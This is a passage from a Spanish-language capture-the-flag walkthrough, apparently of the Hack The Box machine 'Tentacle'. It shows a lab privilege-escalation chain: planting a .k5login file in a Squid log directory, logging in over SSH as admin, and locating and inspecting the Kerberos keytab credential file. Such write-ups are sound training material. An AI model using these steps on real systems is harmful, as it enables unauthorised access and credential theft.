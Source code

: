 ```bash
[j.nakazawa@srv01 ~]$ mv .k5login /var/log/squid/
```

Yyy:

```bash
❭ ssh admin@10.10.10.224
admin@10.10.10.224's password:

❭ ssh admin@10.10.10.224
admin@10.10.10.224's password:

❭ ssh admin@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Mon Mar  8 16:42:02 2021
[admin@srv01 ~]$
```

Perfecto, peeeeeeeeeeeerfecto.

Enumerando al usuario `admin` encontramos un archivo interesante:

```bash
[admin@srv01 ~]$ find / -group admin 2>/dev/null | grep -vE "sys|proc|run"
/etc/krb5.keytab
/usr/local/bin/log_backup.sh
/home/admin
/home/admin/.ssh
```

Validándolo:

![310bash_validating_content_keytab_file](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310bash_validating_content_keytab_file.png)

Jmm, veamos que tipo de archivo es:

```bash
[admin@srv01 ~]$ file /etc/krb5.keytab
/etc/krb5.keytab: Kerberos Keytab file, realm=REALCORP.HTB, principal=host/srv01.realcorp.htb, type=1, date=Tue Dec  8 22:15:30 2020, kvno=2
```

Parece relevante, investigando sobre él, encontramos:

> "La clave de servicio es utilizada por un servicio para autenticarse a sí misma en el `KDC`, y solo es conocida por `Kerberos` y el servicio."
> "Un archivo `keytab` es análogo a la contraseña de un usuario. De la misma manera que es importante que los usuarios protejan sus contraseñas, es importante que los servidores de aplicaciones protejan sus archivos keytab. Siempre debe guardar los archivos keytab en un disco local y permitir su lectura sólo al usuario `root`."
>> [docs.oracle.com/keytab](https://docs.oracle.com/cd/E24842_01/html/E23286/aadmin-10.html).

* [Más info sobre **keytab file**](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-install/The-Keytab-File.html).

Uff pues si tiene relevancia, jugando con Google, encontramos como listar las llaves guardadas en cache del archivo `.keytab`:
